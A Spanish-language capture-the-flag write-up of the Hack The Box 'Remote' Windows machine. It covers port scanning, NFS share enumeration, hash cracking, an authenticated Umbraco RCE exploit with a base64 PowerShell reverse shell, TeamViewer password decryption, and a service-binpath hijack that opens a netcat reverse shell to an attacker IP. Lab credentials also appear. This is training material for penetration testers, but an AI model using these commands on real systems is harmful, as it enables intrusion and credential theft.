









# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Remote](https://www.hackthebox.com/home/machines/profile/234) |
| OS | Windows |
| Dificultad oficial | Easy |
| Dificultad de comunidad |  |
| Puntos | 20 |
| Creadores | [mrb3n](https://www.hackthebox.com/home/users/profile/2984) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ sudo nmap -sS --min-rate 5000 -vvv -open -p- -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-02 09:05 EDT
Initiating SYN Stealth Scan at 09:05
Scanning 10.10.10.180 [65535 ports]
Discovered open port 80/tcp on 10.10.10.180
Discovered open port 111/tcp on 10.10.10.180
Discovered open port 445/tcp on 10.10.10.180
Discovered open port 135/tcp on 10.10.10.180
Discovered open port 139/tcp on 10.10.10.180
Discovered open port 21/tcp on 10.10.10.180
Discovered open port 49664/tcp on 10.10.10.180
Discovered open port 49665/tcp on 10.10.10.180
Discovered open port 5985/tcp on 10.10.10.180
Discovered open port 49667/tcp on 10.10.10.180
Discovered open port 49678/tcp on 10.10.10.180
Discovered open port 47001/tcp on 10.10.10.180
Discovered open port 49680/tcp on 10.10.10.180
Discovered open port 49666/tcp on 10.10.10.180
Discovered open port 49679/tcp on 10.10.10.180
Discovered open port 2049/tcp on 10.10.10.180
Completed SYN Stealth Scan at 09:05, 13.25s elapsed (65535 total ports)
Nmap scan report for 10.10.10.180
Host is up, received user-set (0.068s latency).
Scanned at 2022-06-02 09:05:13 EDT for 13s
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 127
80/tcp    open  http         syn-ack ttl 127
111/tcp   open  rpcbind      syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
2049/tcp  open  nfs          syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  unknown      syn-ack ttl 127
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49678/tcp open  unknown      syn-ack ttl 127
49679/tcp open  unknown      syn-ack ttl 127
49680/tcp open  unknown      syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.33 seconds
           Raw packets sent: 65924 (2.901MB) | Rcvd: 65535 (2.621MB)
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-02 09:08 EDT
Nmap scan report for 10.10.10.180
Host is up (0.064s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-06-02T13:09:19
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.15 seconds
```

# Enumeración

## Servicios

### http - 80

#### ffuf

Al navegar a través del sitio disponible y no encontrar información relevante en primera instancia, se decidió enumerar directorios de manera automática mediante  `ffuf -c -ic -u http://10.10.10.180/FUZZ -w /usr/share/dirb/wordlists/common.txt`, encontrando así el directorio `umbraco` el cual no pareció común bajo el contexto del sitio.



#### Manual

Al navegar manualmente al directorio se visualizó un login, a lo que posteriormente se buscó información relacionada encontrando que se trataba de un sistema de gestor de contenidos (CMS).



Al buscar rutas de explotación se encontró un [exploit](https://www.exploit-db.com/exploits/49488) (junto con [su repositorio](https://github.com/noraj/Umbraco-RCE)) el cuál para ser ejecutado se requiere contar con credenciales válidas, abriendo paso a dos consideraciones de camino a la fase de explotación:

- Realizar búsqueda de credenciales por algún sitio *(preferente)*.
- Realizar fuerza bruta al login *(siempre último recurso)*.

### mountd - 2049

Al identificar el servicio y encontrar que se trataba de exposición de puntos de montaje a través de red, se hizo uso de `showmount -e 10.10.10.180` visualizando así el montaje `site_backups`.


Posteriormente, para poder navegar a través del directorio e interactuar cómodamente se creó la carpeta `/mnt/remote` y se ejecutó `sudo mount -t nfs 10.10.10.180:site_backups /mnt/remote -o nolock` para montar ahí lo expuesto en el servidor.

Teniendo en consideración la búsqueda de credenciales, se buscaron patrones en texto claro en el punto de montaje.


Al buscar en los contenidos de los archivos señalados (los que resultaron más atractivos) se encontró en el archivo `UmbracoTraceLog.intranet.txt` un usuario potencial que se utilizó para continuar con la búsqueda de información.



Utilizando lo encontrado, se procedió a hacer otra búsqueda descartando así múltiples archivos permitiendo verificar otros que con anterioridad no se revisaron.


Al ser interpretado como binario, se uso `strings Umbraco.pdf` para interpretar los caracteres legibles identificando así las credenciales `admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa`.


# Explotación

## Cracking de hash obtenido

Guardando el hash del usuario admin en un archivo y haciendo uso de `john hashes --wordlist=/usr/share/wordlists/rockyou.txt` se obtuvo la contraseña `admin@htb.local:baconandcheese`.



## RCE

Después de validar las credenciales con el portal de umbraco y descargar el exploit previamente encontrado, se ejecutó `python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami` para corroborar su uso.


Haciendo uso de [Reverse Shell Generator](https://www.revshells.com/) se generó una reverse shell de powershell en base64 para entablar la conexión con `python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c powershell.exe -a '-e JABjAGwAaQBlAG4AdAAg[...]`.


# Post Explotación

## Enumeración

Verificando los privilegios que se tienen con el usuario obtenido haciendo uso de `whoami /all` se visualizó que el privilegio `SeImpersonatePrivilege` se encuentra habilitado, permitiendo su explotación haciendo uso de Rotten/JuicyPotato.


Por medio de [winPEAS](https://github.com/carlospolop/PEASS-ng) se encontró que el servicio de `TeamViewer` se encuentra habilitado y ejecutándose. Concordando de alguna forma con el nombre de la máquina.


Posteriormente, se realizó una búsqueda sobre los exploits disponibles sobre TeamViewer encontrando los siguientes.



En donde por curiosidad se tomó en consideración la exposición de credenciales y búscando más información al respecto se encontró el módulo de metasploit `windows/gather/credentials/teamviewer_passwords` y un [repositorio](https://github.com/zaphoxx/WatchTV) en conjunto con [su artículo](https://whynotsecurity.com/blog/teamviewer/) en donde se realiza una PoC para descifrar las credenciales alojadas en registros de Windows.

También dentro de la salida de `winPEAS` se visualiza que se cuenta con acceso completo al servicio `UsoSvc`, lo que permitiría modificar las opciones del servicio y detener o iniciar su ejecución.


## Escalación de privilegios

### iis apppool &rarr; nt authority system

#### TeamViewer

Al subir el script de powershell a la máquina, cargarlo como módulo en la sesión con `Import-Module` y ejecutar la función de extración `Get-TeamViewPasswords`, se descifró la contraseña `!R3m0te!`.


*El mismo proceso puede ser realizado con el módulo de metasploit, sin embargo, es necesario tener una sesión abierta preferentemente de meterpreter (al tiempo que se resolvió la máquina el payload ejecutado fue `windows/meterpreter_reverse_tcp`)*

Probando posteriormente la contraseña con el usuario Administrator mediante `impacket-psexec 'Administrator:!R3m0te!@10.10.10.180'`, obteniendo así acceso como `NT AUTHORITY\SYSTEM`.



#### Modificación de servicios

Mediante `sc.exe qc UsoSvc` se puede ver más a detalle información respecto este servicio.



Por lo que haciendo uso de `sc.exe config UsoSvc binpath="c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 4321"` se buscó la modificación de la ruta del binario a ejecutar sustituyéndola con la ejecución de netcat para entablar una reverse shell. Al consultar de nuevo la información del servicio, se observa la modificación del valor.



Por consiguiente al poner la conexión a la escucha y  realizar un reinicio del servicio `net stop UsoSvc && net start UsoSvc` se logró tener acceso como `NT AUTHORITY\SYSTEM` satisfactoriamente.



#### JuicyPotato

Debido al no tener éxito al aprovecharse del privilegio ni con el uso de [JuicyPotato](https://github.com/ohpe/juicy-potato) ni con [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) se buscó corroborar con el writeup oficial, el cuál indica que debería ser válido el método, sin embargo, no se logró satisfactoriamente.

# Referencias

- [Exploit de Umbraco](https://www.exploit-db.com/exploits/49488).
- [Github - Exploit de Umbraco](https://github.com/noraj/Umbraco-RCE).
- [HackTricks - Pentesting NFS Service](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting).
- [Microsoft - Importación de módulo en powershell](https://docs.microsoft.com/en-us/powershell/scripting/developer/module/importing-a-powershell-module?view=powershell-7.2).
- [Github - Descifrado de contraseñas TeamViewer](https://github.com/zaphoxx/WatchTV).
- [Descrifrado de contraseñas TeamViewer post de blog](https://whynotsecurity.com/blog/teamviewer/).
- [HackTricks - Local Privilege Escalation - Services](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services)
